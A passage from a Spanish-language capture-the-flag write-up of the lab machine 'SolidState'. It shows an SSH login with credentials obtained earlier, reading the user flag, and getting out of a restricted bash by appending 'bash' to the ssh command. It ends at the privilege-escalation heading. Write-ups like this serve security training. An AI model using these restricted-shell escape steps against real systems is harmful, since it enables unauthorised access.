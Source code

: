 Obtenemos credenciales de mindy. Vemos que no la ha cambiado todavía

```bash
❯ ssh mindy@10.10.10.51
The authenticity of host '10.10.10.51 (10.10.10.51)' can't be established.
ECDSA key fingerprint is SHA256:njQxYC21MJdcSfcgKOpfTedDAXx50SYVGPCfChsGwI0.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.123.157' (ECDSA) to the list of known hosts.
mindy@10.10.10.51's password: 
Linux solidstate 4.9.0-3-686-pae #1 SMP Debian 4.9.30-2+deb9u3 (2017-08-06) i686

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Aug 22 14:00:02 2017 from 192.168.11.142
mindy@solidstate:~$ 
```

Podemos acceder a la flag de usuario

```bash
mindy@solidstate:~$ ls
bin  user.txt
mindy@solidstate:~$ cat user.txt 
614dc821367571e0e***************
```
Si tratamos de ejecutar cualquier comando veremos que estamos en una `restricted bash` por lo que estamos algo limitados pudiendo sólo ejecutar **cat**, **env** y **ls**

```bash
mindy@solidstate:~$ id
-rbash: id: command not found
mindy@solidstate:~$ echo $PATH
/home/mindy/bin
mindy@solidstate:~$ ls bin/
cat  env  ls
```

Una manera de saltarse la limitación es cuando nos conectamos por ssh añadir un comando al final para que lo ejecute. Si no está bien configurado nos ejecutará el comando que le indiquemos

```bash
❯ ssh mindy@10.10.10.51 bash
mindy@10.10.10.51's password: 
whoami
mindy
```

Hemos ganado acceso a la máquina víctima! Hacemos un tratamiendo de la tty para tener una shell plenamente funcional y seguimos con la escalada de privilegios

### Escalada Privilegios
